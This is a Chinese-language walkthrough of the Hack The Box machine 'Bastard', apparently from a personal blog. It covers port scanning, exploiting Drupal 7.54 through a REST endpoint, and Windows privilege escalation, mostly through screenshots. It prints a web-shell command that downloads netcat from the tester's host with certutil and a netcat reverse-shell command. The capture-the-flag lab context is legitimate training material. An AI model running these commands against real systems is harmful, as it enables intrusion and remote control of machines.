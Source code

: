 +++
ShowToc = true
TocOpen = true
title = '0X001 Bastard'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描：

![](/htb_img/WEBRESOURCEb3d7a7acb7f5875803b8d77d07427b3eimage.png)

![](/htb_img/WEBRESOURCE47f3572f4d6819bed9f11b147ff33718image.png)

## 获取立足点

![](/htb_img/WEBRESOURCE0adc3946b4962d062d144b04c4b91882image.png)

![](/htb_img/WEBRESOURCE4771da8485050d5158dfe97c2d6a81dcimage.png)

版本是7.54：

![](/htb_img/WEBRESOURCEacfa99ca7197578961cf197a69b65897image.png)

判断一下，基本能用的就这些：

![](/htb_img/WEBRESOURCEd9ef537a0ef532d40abd2a39e7d78db3image.png)

第一个遇到需要寻找一个端点，来进行渗透测试：

![](/htb_img/WEBRESOURCE361f32b7cee278d6e2397924972769e7image.png)

通过gobuster发现node：

![](/htb_img/WEBRESOURCE2d914653c97c19b2474e340f7c0ee87eimage.png)

对该目录接着进行扫描，发现01：

![](/htb_img/WEBRESOURCE060b2eecf0df2aa12ed8723373928449image.png)

访问一下：

![](/htb_img/WEBRESOURCE75bad0944eda4e2d29aea5db9b89368bimage.png)

点击：

![](/htb_img/WEBRESOURCE204736d39eca3b90bbe5da6e8ca0cac3image.png)

把rest和rest_endpoint输入进去：

![](/htb_img/WEBRESOURCEde39c6c08041508ae9b3c72f521ba4e8image.png)

执行成功：

![](/htb_img/WEBRESOURCE4b89a0370927b80ba773bb5027f6b820image.png)

替换代码：

![](/htb_img/WEBRESOURCE1272b51816c79b770e4d253ff22071b8image.png)

执行：

![](/htb_img/WEBRESOURCE34510262979338e66fe15a8a177eb07bimage.png)

上传nc:

http://10.10.10.9/cxk.php?cxk=certutil -urlcache -split -f http://10.10.16.4/nc64.exe C:\Windows\Temp\b.exe

![](/htb_img/WEBRESOURCEb8ea0f9ba79c3e54cba1450d84b8f819image.png)

反弹shell:

start C:\Windows\Temp\b.exe -e cmd.exe 10.10.16.4 9999 

![](/htb_img/WEBRESOURCEe858889d3ce85b26fab611d93873b3adimage.png)

用第二个rb的脚本也是可以的：

![](/htb_img/WEBRESOURCE54d3e3046eaf9f5cabaa77e51418c19cimage.png)

![](/htb_img/WEBRESOURCE42d10c5ffacaba987b93e0f00f09e691image.png)

# 提权

![](/htb_img/WEBRESOURCE71fa67f3fe83b1240de15a3f64eccc75image.png)

ipconfig:

![](/htb_img/WEBRESOURCE2528263ca52659ee556d6737843b160bimage.png)

user.txt:

![](/htb_img/WEBRESOURCEf041f9aa2ccbe14d09898aa6c26c4a4dimage.png)

运行我们的脚本：

[https://github.com/carlospolop/PEASS-ng/releases/tag/20231224-836b4ac9](https://github.com/carlospolop/PEASS-ng/releases/tag/20231224-836b4ac9)

winpeass

![](/htb_img/WEBRESOURCE30cf72f1f7eee915348c9f0040ea73bfimage.png)

其实也得看一下这些里面哪些是常用的，和有EXP的：

[https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

这里选一个，用得比较多的：

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools

![](/htb_img/WEBRESOURCE1f2fdbda2c12a9e9dec250061c236c4aimage.png)

：

![](/htb_img/WEBRESOURCEcb192e824d8e6394c4fb1b69ce8202c3image.png)

![](/htb_img/WEBRESOURCE865b7c59908b42faeccdaed093d08e1cimage.png)

![](/htb_img/WEBRESOURCEcbbe6ce19698e72975af06cbb985d0dfimage.png)
